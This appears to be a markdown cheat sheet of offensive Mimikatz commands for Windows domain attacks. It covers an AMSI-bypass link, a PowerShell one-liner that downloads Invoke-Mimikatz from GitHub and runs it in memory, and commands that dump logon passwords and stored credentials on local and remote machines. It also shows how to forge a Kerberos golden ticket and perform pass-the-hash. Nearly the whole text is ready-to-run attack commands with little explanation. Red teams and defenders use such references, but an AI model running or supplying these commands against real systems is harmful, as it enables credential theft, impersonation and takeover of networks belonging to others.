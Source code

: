 # Add to PowerShell
- [Patch amsi.dll](https://github.com/okazymyrov/piki/blob/master/PowerShell.md#patching-amsidll-amsiscanbuffer-by-rasta-mouse)
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

## Invoke-Mimikatz custom commands
```powershell
Invoke-Mimikatz -Command '"log mimi.log" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'
```

## Invoke-Mimikatz custom commands on remote machines
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "sekurlsa::credman"' -ComputerName @("<hostname1>.domain.local", "<hostname2>.domain.local")
```

# Lists all available provider credentials
```console
mimikatz "log" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"
```

# Make a Golden ticket
<details>
  <summary>Find SID</summary>
  
  Using [wmic](https://github.com/okazymyrov/piki/blob/master/wmic.md#get-sids-of-domains) or 
  ```console
  whoami /all
  ```
  
</details>

```console
mimikatz "kerberos::golden /user:<username> /domain:<domain> /sid:<sid> /aes256:<aes256_hmac> /id:<user_id> /groups:<group_id> /startoffset:0 /endin:600 /renewmax:10080 /ticket:<user.domain.kirbi>" "exit"
```

# Path-the-hash
```console
mimikatz "sekurlsa::pth /user:<user> /aes256:<aes256_hmac> /domain:<domain> /run:cmd.exe" "exit"
```
